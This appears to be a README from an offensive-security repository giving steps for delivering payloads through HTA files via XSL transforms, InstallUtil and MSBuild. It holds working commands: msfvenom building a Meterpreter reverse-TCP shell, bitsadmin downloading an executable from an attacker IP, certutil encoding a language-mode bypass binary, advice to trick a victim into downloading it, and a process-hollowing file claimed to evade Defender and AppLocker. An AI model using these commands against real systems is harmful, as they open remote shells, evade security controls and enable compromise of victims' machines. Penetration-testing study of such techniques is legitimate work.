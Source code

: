 ### <ins>XSL Transform (xsl.hta)</ins>

- Create shellcode using msfvenom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt` 
- Convert to JS using SuperSharpShooter: `python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test` 
- Embed the JS content inside the `template.xsl` template file. 

### <ins>InstallUtil (installutil-template.hta)</ins>
*Note: if curl is not available on the target machine, we can use bitsadmin instead:*
- `bitsadmin /transfer myJob http://192.168.45.199/scanVenger.exe C:\Windows\Tasks\scanvenger.exe`

- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.

### <ins>MSBuild (msbuild.hta)</ins>
- Use the file [Hollow.xml](https://github.com/Extravenger/OSEP-Combat/blob/main/CLM-Bypass/MSBuild/Hollow.xml). (Bypass defender and Applocker defautlt rules)
